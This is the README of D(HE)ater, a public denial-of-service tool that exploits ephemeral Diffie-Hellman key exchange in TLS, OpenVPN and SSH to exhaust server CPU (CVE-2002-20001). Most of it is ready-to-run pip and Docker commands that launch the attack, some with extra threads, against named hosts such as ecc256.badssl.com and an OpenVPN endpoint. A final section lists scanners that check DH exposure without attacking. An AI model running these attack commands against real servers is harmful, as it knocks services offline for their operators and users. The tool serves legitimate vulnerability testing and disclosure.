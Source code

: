 # D(HE)ater

D(HE)ater is an attacking tool based on CPU heating in that it forces the ephemeral variant of
[Diffie-Hellman key exchange](https://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) (DHE) in given
cryptography protocols (e.g. TLS, OpenVPN, SSH). It is performed without calculating a cryptographically correct
ephemeral key on the client-side, but with a significant amount of calculation on the server-side. Based on this,
a [denial-of-service (DoS) attack](https://en.wikipedia.org/wiki/Denial-of-service_attack) can be initiated,
called [D(HE)at attack](https://dheatattack.com)
([CVE-2002-20001](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-20001)).

## Quick start

D(HE)ater can be installed directly via [pip](https://pip.pypa.io/en/stable/) from
[PyPi](https://pypi.org/project/dheater/)

```shell
pip install dheater
dheat --protocol tls ecc256.badssl.com
dheat --protocol ssh ecc256.badssl.com
```

or can be used via [Docker](https://www.docker.com/) from
[Docker Hub](https://hub.docker.com/repository/docker/coroner/dheater)

```shell
docker pull coroner/dheater
docker run --tty --rm coroner/dheater --protocol tls ecc256.badssl.com
docker run --tty --rm coroner/dheater --protocol tls openvpn://vpn.example.com
docker run --tty --rm coroner/dheater --protocol tls openvpntcp://vpn.example.com:443
docker run --tty --rm coroner/dheater --protocol ssh ecc256.badssl.com
```

You can increase load by string extra threads.

```shell
dheat --thread-num 4 --protocol tls ecc256.badssl.com
docker run --tty --rm coroner/dheater --thread-num 4 --protocol tls ecc256.badssl.com
docker run --tty --rm coroner/dheater --thread-num 4 --protocol tls openvpn://vpn.example.com
docker run --tty --rm coroner/dheater --thread-num 4 --protocol tls openvpntcp://vpn.example.com:443
docker run --tty --rm coroner/dheater --thread-num 4 --protocol ssh ecc256.badssl.com
```

## Check

Without attacking a server or accessing its configuration it is still possible
to determine whether Diffie-Hellman (DH) key exchange is enabled and if so what
DH parameters (prime, generator, key size) are used.  Command line tools such as
[CryptoLyzer](https://gitlab.com/coroner/cryptolyzer) (TLS, OpenVPN, SSH KEX/GEX),
[testssl.sh](https://testssl.sh) (TLS only), or
[ssh-audit](https://github.com/jtesta/ssh-audit) (SSH KEX only) can do that work.
